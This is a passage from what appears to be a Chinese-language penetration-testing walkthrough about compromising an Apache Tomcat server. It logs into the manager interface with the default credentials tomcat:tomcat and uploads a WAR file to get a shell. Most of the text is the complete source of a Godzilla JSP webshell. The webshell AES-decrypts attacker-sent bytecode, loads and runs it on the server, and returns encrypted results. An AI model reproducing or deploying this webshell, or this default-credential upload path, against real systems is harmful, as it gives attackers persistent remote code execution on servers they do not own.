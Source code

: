 [![](assets/1708094050-43741ba9959a448fbf95cc4775f39411.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144137-abbea1aa-0ffe-1.png)

输入账号密码 tomcat：tomcat 后进入 tomcat 的后台管理页面，发现一处上传 war 包即可直接 getshell。  
使用哥斯拉生成一个 jsp 马，将其单独放置于一个目录下，进入该目录，密码为 pass

```plain
<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}%>
```

将 shell.jsp 马打包成 war 包
